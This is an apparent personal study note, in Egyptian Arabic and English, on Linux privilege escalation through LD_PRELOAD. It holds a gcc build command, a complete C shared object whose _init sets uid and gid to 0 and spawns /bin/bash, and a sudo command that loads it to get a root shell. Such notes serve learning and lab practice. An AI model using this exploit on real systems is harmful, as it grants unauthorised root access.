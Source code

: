 # LD\_PRELOAD

الفايل دا بيسمحلك انك تضيف كود في مكتبه معينه وبيستدعي كودك قبل كود المكتبه الاساسيه

![image.png](<../../../.gitbook/assets/image (18).png>)

This command tells GCC to **compile a C source file (`malicious.c`) into a shared object file (`malicious.so`)**. Shared object files (`.so`) are dynamic libraries used by other programs — they don’t run by themselves.

It’s often used for:

* Creating **custom shared libraries**.
* Building **malicious payloads** for tricks like `LD_PRELOAD`.

```bash
gcc -fPIC -shared -o malicious.so malicious.c -nostartfiles

# fPIC -> allow this file can be execute on any loction of ram
-nostartfiles: معناه "ما تحطليش ملفات البداية الافتراضية" (زي اللي بتحتوي على main() أو تهيئة البيئة)، وده لأن الملف مش هيتنفذ لوحده، هو مجرد مكتبة هتشتغل من خلال برنامج تاني.

```

```c
// this a malicious file
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

![2025-04-08 20\_03\_52-Kali Linux - VMware Workstation.png](<../../../.gitbook/assets/2025 04 08_20_03_52 Kali_Linux_ _VMware_Workstation.png>)

```bash
sudo LD_PRELOAD=/home/user/malicious.so apache2
#and u can use it with any service dosen't need privilege user
```
